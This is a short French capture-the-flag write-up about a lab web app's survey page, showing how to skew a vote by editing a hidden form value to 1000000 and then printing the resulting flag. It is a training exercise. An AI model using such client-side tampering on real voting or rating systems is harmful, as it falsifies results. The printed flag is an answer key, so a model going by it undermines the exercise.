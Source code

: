 # B04-SurveyVote

PATH `http://192.168.56.110/index.php?page=survey#`

Pour celui-ci nous allons sur la page `survey` et on peux voir un systeme de vote.

En inspectant le code, on peux voir que les notes que nous mettons sont directement passer dans le code en tant que valeur, donc si on change cette valuer pour quelque chose de tres grand on peux fausser le vote.

On test

```
<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="4">
					<select name="valeur" onchange="javascript:this.form.submit();">
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</select>
				</form>
			</td>
			<td align="center"> 9.37838			</td>
			<td align="center"> Thor			</td>
			<td align="center"> 37			</td>
		</tr>
```

On modifie les values

```
<option value="1000000">10</option>
```

```
THE FLAG IS 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
```